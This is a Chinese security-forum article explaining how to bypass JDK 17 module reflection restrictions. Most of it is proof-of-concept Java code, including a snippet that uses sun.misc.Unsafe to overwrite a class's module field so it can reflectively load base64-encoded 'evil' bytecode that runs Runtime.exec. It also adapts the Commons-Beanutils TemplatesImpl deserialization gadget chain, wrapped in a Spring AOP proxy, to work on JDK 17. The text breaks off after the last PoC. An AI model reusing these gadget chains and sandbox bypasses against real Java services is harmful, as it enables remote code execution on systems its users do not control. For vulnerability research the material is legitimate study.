# java之jdk17反射机制绕过深入剖析-先知社区

> **来源**: https://xz.aliyun.com/news/17980  
> **文章ID**: 17980

---

# java之jdk17反射机制绕过深入剖析

## 问题分析

先写一个测试代码，通过反射调用 defineclass 方法加载恶意字节码，

```
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.Base64;

public class test {
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {
        String payload = "yv66vgAAAD0AJwoAAgADBwAEDAAFAAYBABBqYXZhL2xhbmcvT2JqZWN0AQAGPGluaXQ+AQADKClWCgAIAAkHAAoMAAsADAEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwgADgEABGNhbGMKAAgAEAwAEQASAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwcAFAEAE2phdmEvaW8vSU9FeGNlcHRpb24HABYBABpqYXZhL2xhbmcvUnVudGltZUV4Y2VwdGlvbgoAFQAYDAAFABkBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYHABsBAARldmlsAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAZMZXZpbDsBAAg8Y2xpbml0PgEAAWUBABVMamF2YS9pby9JT0V4Y2VwdGlvbjsBAA1TdGFja01hcFRhYmxlAQAKU291cmNlRmlsZQEACWV2aWwuamF2YQAhABoAAgAAAAAAAgABAAUABgABABwAAAAvAAEAAQAAAAUqtwABsQAAAAIAHQAAAAYAAQAAAAUAHgAAAAwAAQAAAAUAHwAgAAAACAAhAAYAAQAcAAAAZgADAAEAAAAXuAAHEg22AA9XpwANS7sAFVkqtwAXv7EAAQAAAAkADAATAAMAHQAAABYABQAAAAgACQALAAwACQANAAoAFgAMAB4AAAAMAAEADQAJACIAIwAAACQAAAAHAAJMBwATCQABACUAAAACACY=";

        byte[] decode = Base64.getDecoder().decode(payload);

        Method defineClass = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
        defineClass.setAccessible(true);
        Class evil = (Class) defineClass.invoke(ClassLoader.getSystemClassLoader(), "evil", decode, 0, decode.length);
        evil.newInstance();
    }
}
```

然后进行运行的时候发现报错，



看报错信息不难发现是在 `setAccessible` 出的问题，跟进该方法



调用了 `checkCanSetAccessible` 方法，继续跟进



看着逻辑有点多，但是发现如果满足下面这几种情况是可以返回 true 就可以进行反射调用了。



* 第一个 if：调用者的模块（callerModule）和声明该方法的模块（declaringModule）是同一个模块返回 true
* 第二个 if：调用者所在的模块是 `java.base` 返回 true
* 第三个 if：如果 `declaringModule` 是一个未命名模块（Unnamed Module），返回 true



如果声明的类是 public，并且该类所在的包被导出给调用者模块（declaringModule.isExported(pn, callerModule)），且成员是 public，则可以访问



如果成员是 protected 且 static，并且调用者类是声明类的子类（isSubclassOf(caller, declaringClass)），则可以访问。



如果声明类的包通过 open 关键字开放给调用者模块（declaringModule.isOpen(pn, callerModule)），则可以访问。

现在知道了只有上面这几种情况才会进行调用。

## Unsafe 绕过

在 jdk 9 后的模块化机制提到

```
Note that the sun.misc and sun.reflect packages are available for reflection by tools and libraries in all JDK releases, including JDK 17.
```

sun.misc和sun.reflect包下的我们是可以正常反射的，关键利用点就在这里。

看上面反射调用条件，我们可以通过 unsafe 来修改调用类的 moudle 属性为 `java.base` 然后使 `checkCanSetAccessible` 方法返回为 true 进行反射调用。这可以通过 Unsafe 类中的 `getAndSetObject` 方法（putObject 方法也一样）进行修改 moudule 属性，其和反射赋值功能差不多。

修改代码如下

```
Class unsafeClass = Class.forName("sun.misc.Unsafe");
Field field = unsafeClass.getDeclaredField("theUnsafe");
field.setAccessible(true);
Unsafe unsafe = (Unsafe) field.get(null);
Module baseModule = Object.class.getModule();
Class currentClass = Main.class;
long addr = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));
unsafe.getAndSetObject(currentClass, addr, baseModule);
```

最终成功反射加载字节码

```
package org.example;  
  
import sun.misc.Unsafe;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationTargetException;  
import java.lang.reflect.Method;  
import java.util.Base64;  
  
public class poc {  
    public static void main(String[] args) throws NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, ClassNotFoundException, NoSuchFieldException {  
  
  
        String evilClassBase64 = "yv66vgAAADQAIwoACQATCgAUABUIABYKABQAFwcAGAcAGQoABgAaBwAbBwAcAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAGAEAClNvdXJjZUZpbGUBAAlFdmlsLmphdmEMAAoACwcAHQwAHgAfAQAEY2FsYwwAIAAhAQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAAKACIBAARFdmlsAQAQamF2YS9sYW5nL09iamVjdAEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsBABgoTGphdmEvbGFuZy9UaHJvd2FibGU7KVYAIQAIAAkAAAAAAAIAAQAKAAsAAQAMAAAAHQABAAEAAAAFKrcAAbEAAAABAA0AAAAGAAEAAAADAAgADgALAAEADAAAAFQAAwABAAAAF7gAAhIDtgAEV6cADUu7AAZZKrcAB7+xAAEAAAAJAAwABQACAA0AAAAWAAUAAAAGAAkACQAMAAcADQAIABYACgAPAAAABwACTAcAEAkAAQARAAAAAgAS";  
        byte[] bytes = Base64.getDecoder().decode(evilClassBase64);  
  
        Class unsafeClass = Class.forName("sun.misc.Unsafe");  
        Field field = unsafeClass.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe = (Unsafe) field.get(null);  
        Module baseModule = Object.class.getModule();  
        Class currentClass = poc.class;  
        long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
        unsafe.putObject(currentClass, offset, baseModule);  
        // or  
        //unsafe.getAndSetObject(currentClass, offset, baseModule);  
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);  
        method.setAccessible(true);  
        ((Class)method.invoke(ClassLoader.getSystemClassLoader(), "Evil", bytes, 0, bytes.length)).newInstance();  
    }  
  
}
```

简单解释几点，下面这段代码是反射反射获得 `theUnsafe` 属性值，这个属性值就是 `Unsafe` 对象，

```
Class unsafeClass = Class.forName("sun.misc.Unsafe");  
Field field = unsafeClass.getDeclaredField("theUnsafe");  
field.setAccessible(true);  
Unsafe unsafe = (Unsafe) field.get(null); 
```

接着是获得 Object.class 类的 module 属性

```
Module baseModule = Object.class.getModule();  
```

因为在 `checkCanSetAccessible` 中，看到 `declaringModule` 是通过 `declaringClass.getModule()` 获得的，为 `module java.base`



而我们设置的 moudule 属性为 `Object.class.getModule();` 的值也为 `module java.base`，

继续看

```
Class currentClass = poc.class;  
long offset = unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
unsafe.putObject(currentClass, offset, baseModule); 
```

获得当前类，然后通过 unsafe 的 putObject 来修改当前类的 module 属性，它可以绕过私有属性限制，因为其是直接操作 JVM 内存，就像 C 语言的指针操作一样。

之所以还需要设为同样一 moudle 进行反射，是因为其不能反射调用私有方法。设为同一 module 后 `setAccessible(true);` 就不会报错了

```
Method method = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);  
method.setAccessible(true);  
((Class)method.invoke(ClassLoader.getSystemClassLoader(), "Evil", bytes, 0, bytes.length)).newInstance();
```



## TemplatesImpl 的模块机制影响

我们知道因为 jdk17 的模块化机制导致我们无法使用 TemplatesImpl 这个类，那么受否能用上面学的到 unsafe 进行绕过了，这里利用 CB 链进行尝试

cb poc

```
package org.example;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import org.apache.commons.beanutils.BeanComparator;  
  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.PriorityQueue;  
public class CBtest {  
    public static void main(String[] args)throws Exception {  
  
        TemplatesImpl tem =new TemplatesImpl();  
        byte[] code = Files.readAllBytes(Paths.get("D:/test.class"));  
        setValue(tem, "_bytecodes", new byte[][]{code});  
        setValue(tem, "_tfactory", new TransformerFactoryImpl());  
        setValue(tem, "_name", "gaoren");  
        setValue(tem, "_class", null);  
  
        PriorityQueue queue = new PriorityQueue(1);  
  
        BeanComparator comparator = new BeanComparator("outputProperties");  
  
        queue.add(1);  
        queue.add(1);  
  
        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");  
        field.setAccessible(true);  
        field.set(queue,comparator);  
  
        Object[] queue_array = new Object[]{tem,1};  
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");  
        queue_field.setAccessible(true);  
        queue_field.set(queue,queue_array);  
  
        serilize(queue);  
        deserilize("ser.bin");  
    }  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
}
```

发现都没法运行，直接就报错了，



报错信息为

```
软件包 'com.sun.org.apache.xalan.internal.xsltc.trax' 在模块 'java.xml' 中声明，但后者没有将它导出到未命名模块
```

问 GPT 解释是这个是类是直接就不能访问了，和上面不一样的点是，上面类可以访问，只是不能正常利用反射去设置其私有属性和私有方法。下面再细看这之间究竟有什么不同。

这里利用上面的 unsafe 进行反射获取其实列对象

```
Field field = Unsafe.class.getDeclaredField("theUnsafe");  
field.setAccessible(true);  
Unsafe unsafe=(Unsafe) field.get(null);  
Module baseModule=Object.class.getModule();  
Class<?> currentClass= CBtest.class;  
long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
unsafe.getAndSetObject(currentClass,addr,baseModule);  
Class<?> clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");  
Constructor<?> constructor = clazz.getDeclaredConstructor();  
constructor.setAccessible(true);  
Object instance = constructor.newInstance();
```

测试 poc

```
import org.apache.commons.beanutils.BeanComparator;  
import sun.misc.Unsafe;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.PriorityQueue;  
public class test {  
    public static void main(String[] args)throws Exception {  
        Field field = Unsafe.class.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe=(Unsafe) field.get(null);  
        Module baseModule=Object.class.getModule();  
        Class<?> currentClass= test.class;  
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
        unsafe.getAndSetObject(currentClass,addr,baseModule);  
        Class<?> clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");  
        Constructor<?> constructor = clazz.getDeclaredConstructor();  
        constructor.setAccessible(true);  
        Object tem = constructor.newInstance();  
  
        byte[] code = Files.readAllBytes(Paths.get("D:/test.class"));  
        setValue(tem, "_bytecodes", new byte[][]{code});  
        setValue(tem, "_name", "test");  
        setValue(tem, "_class", null);  
  
        PriorityQueue queue = new PriorityQueue(1);  
  
        BeanComparator comparator = new BeanComparator("outputProperties");  
  
        queue.add(1);  
        queue.add(1);  
  
        Field field1 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");  
        field1.setAccessible(true);  
        field1.set(queue,comparator);  
  
        Object[] queue_array = new Object[]{tem,1};  
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");  
        queue_field.setAccessible(true);  
        queue_field.set(queue,queue_array);  
  
        serilize(queue);  
        deserilize("ser.bin");  
    }  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
}
```

然后就没有报错了，运行，看到非常成功的获得了 `TemplatesImpl` 实列并进行赋值。



但是紧接着的反序列化还是报错



看报错信息最后问题是出在compare 方法那里，看到在调用 getter 方法的时候报错，



报错信息为

```
IllegalAccessException: java.lang.IllegalAccessException: class org.apache.commons.beanutils.PropertyUtilsBean cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @51c8530f
```

同样是模块化机制问题引起的。

那么再套个 JdkDynamicAopProxy 代理呢，通过调用这个代理类的 getOutputProperties 方法来最后反射调用TemplatesImpl 的getOutputProperties 方法，这是个 public 方法，然后这个代理类可以随便进行调用

```
Class<?> clazz1 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");  
Constructor<?> cons = clazz1.getDeclaredConstructor(AdvisedSupport.class);  
cons.setAccessible(true);  
AdvisedSupport advisedSupport = new AdvisedSupport();  
advisedSupport.setTarget(tem);  
InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);  
Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);
```

最后测试 poc

```
import org.apache.commons.beanutils.BeanComparator;  
import org.springframework.aop.framework.AdvisedSupport;  
import sun.misc.Unsafe;  
  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Constructor;  
import java.lang.reflect.Field;  
import java.lang.reflect.InvocationHandler;  
import java.lang.reflect.Proxy;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.util.PriorityQueue;  
public class test {  
    public static void main(String[] args)throws Exception {  
        Field field = Unsafe.class.getDeclaredField("theUnsafe");  
        field.setAccessible(true);  
        Unsafe unsafe=(Unsafe) field.get(null);  
        Module baseModule=Object.class.getModule();  
        Class<?> currentClass= test.class;  
        long addr=unsafe.objectFieldOffset(Class.class.getDeclaredField("module"));  
        unsafe.getAndSetObject(currentClass,addr,baseModule);  
        Class<?> clazz = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");  
        Constructor<?> constructor = clazz.getDeclaredConstructor();  
        constructor.setAccessible(true);  
        Object tem = constructor.newInstance();  
  
        byte[] code = Files.readAllBytes(Paths.get("D:/test.class"));  
        setValue(tem, "_bytecodes", new byte[][]{code});  
        setValue(tem, "_name", "test");  
        setValue(tem, "_class", null);  
  
        Class<?> clazz1 = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy");  
        Constructor<?> cons = clazz1.getDeclaredConstructor(AdvisedSupport.class);  
        cons.setAccessible(true);  
        AdvisedSupport advisedSupport = new AdvisedSupport();  
        advisedSupport.setTarget(tem);  
        InvocationHandler handler = (InvocationHandler) cons.newInstance(advisedSupport);  
        Object proxyObj = Proxy.newProxyInstance(clazz.getClassLoader(), new Class[]{Templates.class}, handler);  
  
        PriorityQueue queue = new PriorityQueue(1);  
  
        BeanComparator comparator = new BeanComparator("outputProperties");  
  
        queue.add(1);  
        queue.add(1);  
  
        Field field1 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");  
        field1.setAccessible(true);  
        field1.set(queue,comparator);  
  
        Object[] queue_array = new Object[]{proxyObj,1};  
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");  
        queue_field.setAccessible(true);  
        queue_field.set(queue,queue_array);  
  
        serilize(queue);  
        deserilize("ser.bin");  
    }  
    public static void serilize(Object obj)throws IOException {  
        ObjectOutputStream out=new ObjectOutputStream(new FileOutputStream("ser.bin"));  
        out.writeObject(obj);  
    }  
    public static Object deserilize(String Filename)throws IOException,ClassNotFoundException{  
        ObjectInputStream in=new ObjectInputStream(new FileInputStream(Filename));  
        Object obj=in.readObject();  
        return obj;  
  
    }  
    public static void setValue(Object obj,String fieldName,Object value) throws Exception {  
        Field field = obj.getClass().getDeclaredField(fieldName);  
        field.setAccessible(true);  
        field.set(obj,value);  
    }  
}
```

看到最后成功调用到了getOutputProperties 方法，

